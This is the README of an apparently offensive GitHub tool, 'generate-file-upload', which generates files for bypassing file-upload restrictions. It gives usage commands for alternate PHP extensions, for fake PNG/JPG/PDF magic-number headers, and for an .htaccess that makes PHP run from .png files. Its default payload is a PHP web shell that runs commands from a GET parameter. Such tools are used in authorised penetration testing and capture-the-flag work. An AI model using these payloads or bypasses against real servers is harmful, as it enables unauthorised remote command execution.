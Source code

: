 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

Generate in `Payloads/` all extension for PHP

## Installation & Usage

```
git clone https://github.com/LighTend3r/generate-file-upload.git
cd ./generate-file-upload
```
To install it, write the command above

```
python3 upfile.py -h
```
If you want help to understand the programme

-----

## Exemple of usage :
```
python3 upfile.py
```
Generate all extension in PHP


```
python3 upfile.py -b
```
Generate all bypass for PHP


```
python3 upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python3 upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


```
python3 upfile.py -ext png -ht png
```
Generate `.htaccess` which allow execution of php with extension .png and create `paylaod.png`

-----

## Options

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

```
usage: upfile.py [-h] [-d] [-p <payload>] [-f {php}] [-ext <ext>] [-b] [-n <name>] [-m {png,jpg,pdf}] [-ht <ext>]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Show debugging to see the process
  -p <payload>, --payload <payload>
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext <ext>, --extension <ext>
                        Generate the payload with specific extension
  -b, --bypass          Generate some payload to bypass the restriction
  -n <name>, --name <name>
                        Name of the file
  -m {png,jpg,pdf}, --magic {png,jpg,pdf}
                        Magic Header, add the magics numbers before the payload
  -ht <ext>, --htaccess <ext>
                        Creates in addition a .htaccess file, which allow execution of php whith extension that you
                        have chosen
   ```         
